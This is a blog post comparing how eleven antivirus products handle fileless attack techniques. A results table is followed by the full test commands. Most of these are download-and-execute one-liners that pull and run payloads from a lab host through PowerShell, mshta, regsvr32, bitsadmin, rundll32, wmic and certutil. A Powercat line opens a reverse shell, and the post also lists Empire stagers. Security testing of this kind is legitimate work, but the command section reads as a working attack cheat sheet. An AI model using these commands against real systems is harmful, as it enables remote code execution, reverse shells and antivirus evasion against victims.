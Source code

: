 ```yaml
---
title: "AV comparison on fileless attack"
date: "2020-04-08"
layout: single
tags:
- Malware
categories:
- Blog-post
---
```


I've test some fileless command in my lab with AV Protection and here's the result.

| Symbol | Description |
|---|---|
| ✔️ | Blocked |
| ❌ | Bypassed |

---

| Fileless technique | Bitdefender | Avast | Symantec | Webroot | ESET | Karspersky | Sophos | TrendMicro | WinDef | Malwarebytes | Panda Adaptive | 
| --- | ---| ---| ---| ---| ---| ---| ---| ---| ---| ---|---|
| koadic `mshta` | ✔️| ❌|❌ | ❌| ✔️ |❌ | ❌| ❌| ✔️ |❌ |❌ |
| koadic `regsvr` | ✔️|❌ |❌ | ❌|✔️ |✔️ |✔️ |✔️ | ✔️| ❌| ✔️|
| koadic `rundll32_js` | ✔️|❌ |✔️ | ❌|✔️ | ✔️|❌ |✔️ | ✔️| ❌| ✔️|
| koadic `bitsadmin ` | ❌|✔️ |❌ |❌ |✔️ |❌ |✔️ |✔️ |✔️ |❌ | ✔️|
|koadic `disk`|✔️ | ❌| ❌|❌ |✔️ |❌ |✔️ |✔️ |✔️ |❌ | ✔️|
| koadic `wmic` | ✔️|❌ |✔️ |❌ |❌ |✔️ |✔️ | ✔️| ✔️|❌ | ✔️|
| Malicious Powershell line  |✔️ |✔️ |✔️ |❌ | ❌| ✔️|❌ |✔️ | ❌| ❌| ✔️|
| msvenom `msiexec ` |✔️ |✔️ | ✔️|✔️ |✔️ |✔️ | ✔️| ✔️|✔️ |✔️ | ✔️|
| msvenom `certutil `| ✔️| ✔️| ✔️|❌ | ✔️| ✔️|✔️ |✔️ |✔️ |✔️ | ✔️|
| msvenom `batch ` | ✔️| ✔️| ✔️|❌ | ❌|✔️ |❌ |❌  | ✔️|❌ |❌ |
| msvenom `cscript `(vbs)  |✔️ |✔️ |✔️ |❌ |✔️ |✔️ |✔️ |✔️ |✔️ | ✔️| ✔️|
| Powercat | ✔️|✔️ | ✔️|❌ |❌ | ❌|❌ |❌  |✔️ |❌ | ✔️|


# Testcase

My testcase are mostly using msvenom with metasploit and koadic.

## Powershell

Download and execute
```
powershell -NoLogo -Command "$webClient = new-object System.Net.WebClient; $webClient.DownloadFile('http://192.168.189.131:7777/evil.exe', '%temp%\evil.exe'); Start-Process -Filepath '%temp%\evil.exe'"
```

Powercat
```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.189.131:7777/powercat.ps1');powercat -c 192.168.189.131 -p 9999 -e cmd"
```

Msvenom batch
```
powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.189.131:7777/ms.bat'))
```

Msvenom Vbscript
```
powershell -NoLogo -Command "$webClient = new-object System.Net.WebClient; $webClient.DownloadFile('http://192.168.189.131:7777/ms.vbs', '%temp%\ms.vbs'); Start-Process %windir%\system32\cscript.exe -Filepath '%temp%\ms.vbs'"
```

Powershell empire stager
```
windows/launcher_bat
windows/launcher_lnk
windows/launcher_sct
windows/launcher_vbs
windows/launcher_xml
windows/backdoorLnkMacro  
windows/macro
windows/bunny             
windows/macroless_msword
windows/csharp_exe        
windows/shellcode
windows/dll               
windows/teensy
windows/ducky
windows/hta
```

Powersploit

## Koadic

Mshta
```
mshta http://192.168.189.131:9999/tT4Fh
```

Regsvr32
```
regsvr32 /s /u /n /i:http://192.168.189.131:9998/d2XfT scrobj
```

Bitsadmin
```
bitsadmin /transfer oZHsz /download /priority high http://192.168.189.131:9995/oZHsz.wsf %temp%\oZHsz.wsf & start /wait %temp%\oZHsz.wsf & del %temp%\oZHsz.wsf
```

Rundll32
```
rundll32.exe javascript:"\..\mshtml, RunHTMLApplication ";x=new%20ActiveXObject("Msxml2.ServerXMLHTTP.6.0");x.open("GET","http://192.168.189.131:9997/eTMXy",false);x.send();eval(x.responseText);window.close();
```

Wmic
```
wmic os get /FORMAT:"http://192.168.189.131:9996/pMeV8.xsl"
```
```
wmic process call create "powershell -NoLogo -Command "$webClient = new-object System.Net.WebClient; $webClient.DownloadFile('http://192.168.189.131:7777/evil.exe', '%temp%\evil.exe'); Start-Process -Filepath '%temp%\evil.exe'" "
```

## Others

Certutil
```
certutil.exe -urlcache -split -f http://192.168.189.131:7777/ms.exe ms.exe & ms.exe
```

Cmstp
```
cmstp.exe /ni /s https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf
```



# Note
Msvenom payload may easily detect by AV because of it's popularity used by many attacker and well recognized by its pattern.
